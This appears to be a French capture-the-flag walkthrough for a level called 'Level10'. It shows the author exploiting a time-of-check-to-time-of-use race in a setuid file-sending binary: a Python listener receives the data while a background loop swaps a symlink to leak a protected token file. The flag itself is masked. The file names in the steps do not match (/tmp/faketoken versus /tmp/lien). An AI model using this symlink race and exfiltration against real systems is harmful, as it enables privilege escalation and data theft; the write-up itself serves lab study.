 # Level10

Premiere étape de recherche

	$ ls -la
	-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
	-rw-------  1 flag10  flag10     26 Mar  5  2016 token

On trouve un binaire setuid et un fichier token sans droits pour nous

	$ ./level10
	./level10 file host
	sends file to host if you have access to it

Le programme envoi un fichier vers une adresse à première vue

	$ ./level10 token localhost
	You don't have access to token

On a pas les droits sur token? Ou alors c'est un check manuel dans le code pour "token"

	$ ./level10 .profile localhost
	Connecting to localhost:6969 .. Unable to connect to host localhost

Pas de problemes de droits avec un fichier appartenant à level10

Pour commencer on va faire un petit serveur en python pour récupérer ce qui est envoyé

```python
#! /usr/bin/python3

import socket
import sys

# On prépare la socket
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# Set et bind de l'adresse et du port
server_address = ("192.168.1.22", 6969)
sock.bind(server_address)
print("starting up on %s port %s" % server_address)
sock.listen(1)

# Boucle infinie pour écouter
while True:
	print("waiting for a connection")
	# Accepte les connections
	connection, client_address = sock.accept()
	print("connection from", client_address)
	# Boucle infinie pour récupérer les datas reçues
	while True:
		# Par blocs de 64
		data = connection.recv(64)
		print('received "%s"' % data)
		# Close quand c'est fini
		if len(data) < 1:
			connection.close()
			break
	break

```

On lance notre serveur de notre coté

	./server.py
	starting up on 192.168.1.22 port 6969
	waiting for a connection

Puis sur la machine on essaye d'envoyer un fichier simple

	$ echo "coucou" > /tmp/coucou

	$ ./level10 /tmp/coucou 192.168.1.22
	Connecting to 192.168.1.22:6969 .. Connected!
	Sending file .. wrote file!

On reçoit bien de notre coté même si c'est pas très propre, ça fera l'affaire

	./server.py
	starting up on 192.168.1.22 port 6969
	waiting for a connection
	connection from ('192.168.1.31', 42473)
	received "b'.*( )*.\n'"
	received "b'coucou\n'"
	received "b''"

Pour les droits du fichier token, faire un lien ne fonctionne pas, donc c'est pas un check sur le nom, c'est bien un problème de droits

On va devoir chercher un peu plus avec GDB

	$ gdb level10
	$ (gdb) disas main
	...
	0x08048749 <+117>:	call   0x80485e0 <access@plt>
	...
	0x0804889b <+455>:	call   0x80485a0 <open@plt>
	...

On voit un appel à access très tot (surement pour checker les droits du fichier à ouvrir) et le open est fait bien plus loin, après l'ouverture de la socket

Un `man access` nous donne les infos suivantes :

> Avertissement : Utiliser access() pour vérifier si un utilisateur a le droit, par exemple, d'ouvrir un fichier avant d'effectuer réellement l'ouverture avec open(2),risque de créer un trou de sécurité. En effet, l'utilisateur peut exploiter le petit intervalle de temps entre la vérification et l'accès pour modifier le fichier (via un lien symbolique en général). Pour cette raison, l'utilisation de cet appel système devrait être évitée.

C'est exactement ce qu'on va faire. Il faut que le `access` soit fait sur un fichier avec les bons droits et le open sur le vrai fichier token

On va créer un fichier tout simple avec les bons droits

	$ echo coucou > /tmp/coucou

Ensuite il nous faudra un fichier /tmp/faketoken qui va etre un lien un coup vers token pour le lire, un coup vers "/tmp/coucou" pour passer les droits. Tout ça très vite pour faire une race condition

On va donc utiliser une boucle infinie de création de ces liens

En background pour pouvoir continuer a utiliser le shell

	$ $(while true; do ln -sf /tmp/coucou /tmp/faketoken; ln -sf $(pwd)/token /tmp/faketoken; done)&

On lance le serveur de notre côté et sur la vm on envoi le fichier, plusieurs fois pour bien tomber

	$ ./server.py
	starting up on 192.168.1.22 port 6969
	waiting for a connection
	connection from ('192.168.1.27', 53723)
	received "b'.*( )*.\n'"
	received "b'XXXXXXXXXXXXXXXXXXXX\n'"
	received "b''"

	$ ./level10 /tmp/lien 192.168.1.22
	You don't have access to /tmp/lien
	$ ./level10 /tmp/lien 192.168.1.22
	You don't have access to /tmp/lien
	$ ./level10 /tmp/lien 192.168.1.22
	Connecting to 192.168.1.22:6969 .. Connected!
	Sending file .. wrote file!
